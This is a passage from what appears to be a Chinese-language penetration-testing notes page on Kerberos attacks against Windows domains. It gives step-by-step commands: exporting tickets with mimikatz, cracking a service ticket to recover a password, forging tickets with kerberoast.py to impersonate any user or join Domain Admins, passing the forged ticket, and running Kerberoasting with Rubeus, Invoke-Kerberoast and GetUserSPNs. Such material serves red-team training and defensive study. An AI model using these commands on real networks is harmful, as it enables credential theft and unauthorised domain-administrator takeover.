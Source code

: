 使用 mimikatz 导出内存中的票据(mimikatz 无需提权)：
```bash
kerberos::list /export
```

**破解**

使用 https://github.com/nidem/kerberoast 工具破解，得到 sqlsrv 密码为 Admin12345：
```bash
python tgsrepcrack.py dict.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi
```

Kerberos 的票据是使用 NTLM Hash 进行签名，上述已经破解密码，就可以使用 Kerberoast 脚本重写票据，这样就可以假冒任何域用户或者虚假的账户，也可以将用户提升到域管中：
```bash
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -u 500
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -g 512
```

```bash
kerberos::ptt test.kirbi
```
攻击者知道一台服务器(或多台服务器)的服务账户和密码，就可以通过此方法将其域用户权限提升到域管。

---

### Kerberoasting

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoasting)]</sup>

kerberoast 攻击，利用 mimikatz 从内存中导出票据破解。而 Kerberoasting 攻击可以不使用 mimikatz，且普通用户权限就可以实现。

**导出**
- **Rubeus**
    - https://github.com/GhostPack/Rubeus
        ```
        Rubeus.exe kerberoast
        ```

- **Invoke-Kerberoast**

    也可以在域内一台主机上导入 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ，以普通用户权限执行：
    ```powershell
    Import-Module .\Invoke-Kerberoast.ps1
    Invoke-Kerberoast -Outputformat Hashcat | fl > test1.txt
    ```

    只提取出 hash 的命令：
    ```powershell
    Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
    ```

- **GetUserSPN**
    使用 impacket 中的 GetUserSPN.py 也可以获取，不过需要域用户名和密码：
    ```powershell
    GetUserSPNs.exe -request -c -ip 192.168.3.142 ffffffff0x.com/sqlsvr
    ```
